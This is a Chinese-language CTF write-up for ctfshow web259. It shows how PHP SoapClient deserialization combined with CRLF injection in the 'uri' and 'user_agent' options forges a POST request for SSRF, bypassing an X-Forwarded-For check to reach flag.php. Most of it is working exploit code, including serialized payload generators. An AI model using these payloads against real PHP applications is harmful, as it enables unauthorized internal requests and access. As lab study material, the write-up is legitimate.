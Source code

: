 ## SoapClient与反序列化

还可以打SSRF  **DASCTF2022十月EasyLove**

## SoapClient与CRLF组合拳实现

> CRLF是”回车 + 换行”（\r\n）的简称。在HTTP协议中，HTTP Header与HTTP Body是用两个CRLF分隔的，浏览器就是根据这两个CRLF来取出HTTP 内容并显示出来。所以，一旦我们能够控制HTTP 消息头中的字符，注入一些恶意的换行，这样我们就能注入一些会话Cookie或者HTML代码，所以CRLF Injection又叫HTTP Response Splitting，简称HRS。

[Y4](file://D:/Typora/note/CTF/web/web259--writeUp.pdf)    Y4✌讲的很详细了，我就主要讲题目方面的了

### 前言

关于什么是**XFF**相必也不需要多说，这里补充一个新Trick

维护代理服务器和原始访问者 IP 地址。如果发送到 Cloudflare 的请求中不含现有的 **X-Forwarded**

**For** 标头，**X-Forwarded-For** 将具有与 **CF-Connecting-IP** 标头相同的值：

> 示例：X-Forwarded-For:203.0.113.1

如果发送到 Cloudflare 的请求中已存在 **X-Forwarded-For** 标头，则 Cloudflare 会将 HTTP 代理的 IP

地址附加到这个标头：

>  示例：X-Forwarded-For:203.0.113.1,198.51.100.101,198.51.100.102

### ctfshow_web259

**flag.php**

```php
<?php
$xff = explode(',', $_SERVER['HTTP_X_FORWARDED_FOR']);
array_pop($xff);
$ip = array_pop($xff);


if($ip!=='127.0.0.1'){
    die('error');
}else{
    $token = $_POST['token'];
    if($token=='ctfshow'){
        file_put_contents('flag.txt',$flag);
    }
}
```

**index.php**

```php
<?php

highlight_file(__FILE__);


$vip = unserialize($_GET['vip']);
//vip can get flag one key
$vip->getFlag();
```

由于本题是**Cloudflare**代理，所以在经过两次**array_pop**后得到的始终是固定的服务器IP，此时无论我们如何对XFF头进行修改都无济于事

因此需要实现**SoapClient**与**CRLF**的组合拳来为我们实现**SSRF**

### SoapClient

照着Y4✌做一下

在**vps**上开启监听，然后执行下面php代码

```php
<?php
$a = new SoapClient(null,array('uri'=>"bbb",'location'=>'http://1.15.107.150:3296'));
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

![image-20221222155552006](SoapClient与反序列化.assets/image-20221222155552006.png)

可以看到，`SOAPAction`这里是我们可控的参数

尝试构造恶意的参数

```php
<?php
$a = new SoapClient(null,array('uri'=>"bbb\r\n\r\ntest\r\n\r\n",'location'=>'http://1.15.107.150:3296'));#必须是双引号哦，单引号会被当成字符
$b = serialize($a);
$c = unserialize($b);
$c -> not_a_function();//调用不存在的方法，让SoapClient调用__call
```

成功

![image-20221222160145610](SoapClient与反序列化.assets/image-20221222160145610.png)

这样我们就可以伪造数据包

![image-20221222160319104](SoapClient与反序列化.assets/image-20221222160319104.png)

但是`user_agent`同样可以`CRLF`，控制`Content-Type`的值

```php
<?php
$target = 'http://1.15.107.150:3296';
$post_string = 'data=something';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo $aaa;

$c = unserialize($aaa);
$c->not_exists_function();
?>
```

![image-20221222161552090](SoapClient与反序列化.assets/image-20221222161552090.png)

伪造成功

### 回到本题

因为有两个`array_pop`，所以要填两个`127.0.0.1`给它**pop**，剩下的那一个就是本地访问产生的`127.0.0.1`

```php
<?php
$target = 'http://127.0.0.1/flag.php';
$post_string = 'token=ctfshow';
$headers = array(
    'X-Forwarded-For: 127.0.0.1,127.0.0.1',
    'Cookie: PHPSESSID=my_session'
    );
$b = new SoapClient(null,array('location' => $target,'user_agent'=>'xlccccc^^Content-Type: application/x-www-form-urlencoded^^'.join('^^',$headers).'^^Content-Length: '.(string)strlen($post_string).'^^^^'.$post_string,'uri'      => "aaab"));

$aaa = serialize($b);
$aaa = str_replace('^^',"\r\n",$aaa);
$aaa = str_replace('&','&',$aaa);
echo urlencode($aaa);
```


